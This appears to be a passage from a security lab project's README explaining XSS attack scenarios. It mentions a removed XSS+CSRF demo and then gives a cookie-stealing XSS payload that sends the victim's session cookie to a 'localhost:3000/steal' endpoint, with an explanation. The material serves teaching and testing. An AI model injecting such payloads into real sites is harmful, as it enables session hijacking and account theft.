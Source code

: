 ### 1. **Chained XSS + CSRF Attack**

**Scenario:** Use XSS to inject a hidden form that submits a CSRF attack on behalf of the victim.

> Note: The CSRF demo endpoint has been removed from this project. The following section is retained only as a conceptual explanation without a live target.

### 2. stealing cookies:

**Scenario:**  
An attacker injects a script that silently sends the victim's session cookie to a server controlled by the attacker. This is a classic XSS attack used to hijack user sessions.

**Payload:**

<script>
    const img = document.createElement('img'); img.src = 'http://localhost:3000/steal?session=' + document.cookie; document.body.appendChild(img);
</script>

**Explanation:**  
The script creates an image element with its `src` set to a URL containing the user's cookies. When the browser loads the image, it sends a request to the attacker's server with the session cookie in the URL. The attacker can then capture the cookie and use it to impersonate the victim.
